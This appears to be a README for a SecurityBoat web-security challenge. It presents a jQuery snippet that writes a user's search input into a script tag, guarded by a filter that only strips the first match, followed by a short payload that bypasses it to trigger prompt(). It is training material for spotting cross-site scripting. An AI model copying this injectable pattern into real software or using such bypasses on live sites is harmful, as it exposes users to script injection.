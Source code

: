 # Static code review for November2022 by SecurityBoat

## Problem

**The task is to spot the vulnerability in the provided static code snippet and trying bypassing it by providing payload to prompt message on the browser**

## Snippet

**Here is the code snippet to solve and perform the attack**

```javascript
<script src='https://code.jquery.com/jquery-3.6.1.min.js'></script>

<script>
  $("#submit").click(function () {
    escape();
  });
  function escape() {
    var searchParam = $("#search").val();
    searchParam = searchParam.replace(/prompt|confirm|print/, 'alert');
    searchParam = searchParam.replace(/[-[\]{}()*+?.,'"\\^$|#\s]/, '');
    $('#result').html('<script>' + searchParam + '<\/script>');
  }
</script>
```

- [Twitter](https://twitter.com/Securityb0at/status/1589987716678422528)
- [linkedIn](https://www.linkedin.com/posts/securityboat_infosec-cybersecurity-bugbounty-activity-6995754446743826432-RUEk?utm_source=share&utm_medium=member_android)
- [Instagram](https://www.instagram.com/p/CktEJFlqTiB/?utm_source=ig_web_copy_link)

## Best Solution attempt

```
var  a = "prompt('duh')"; prompt('pwned');
```
